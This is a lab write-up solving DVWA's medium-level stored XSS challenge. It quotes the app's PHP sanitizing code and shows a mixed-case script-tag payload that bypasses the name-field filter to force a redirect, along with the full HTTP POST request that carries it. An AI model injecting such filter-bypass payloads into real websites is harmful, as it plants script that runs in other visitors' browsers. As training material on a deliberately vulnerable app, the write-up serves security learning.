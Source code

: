 #+TITLE: DVWA - XSS Stored Medium
#+AUTHOR: Leonardo Tamiano

* Description
  The only change is that now in the ~message~ field there's an added filtering with respect to XSS

  #+begin_src php
  // Sanitize message input
    $message = strip_tags( addslashes( $message ) );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $message = htmlspecialchars( $message );
  #+end_src
  
  #+begin_src php
  // Sanitize name input
    $name = str_replace( '<script>', '', $name );
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
  #+end_src

* Solution
  We can bypass the filter by using the fact that the script tag is
  case insensitive, and therefore the following payload will trigger
  once again the redirect

  #+begin_src html
<ScriPt> window.location.replace('https://leonardotamiano.xyz'); </ScriPt>
  #+end_src  

  The vulnerable field is the ~name~ field, and not the ~message~ field,
  which is properly sanitized with the ~htmlspecialchars~ function.

  The final request is

  #+begin_example
POST /vulnerabilities/xss_s/ HTTP/1.1
Host: evil
Content-Length: 123
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://evil
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://evil/vulnerabilities/xss_s/
Accept-Encoding: gzip, deflate, br
Accept-Language: it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: PHPSESSID=qnb8tctsqlju8alqdo6olclav4; security=medium
Connection: close

txtName=<ScriPt>+window.location.replace("https%3a//leonardotamiano.xyz")%3b+</ScriPt>&mtxMessage=yo&btnSign=Sign+Guestbook
  #+end_example
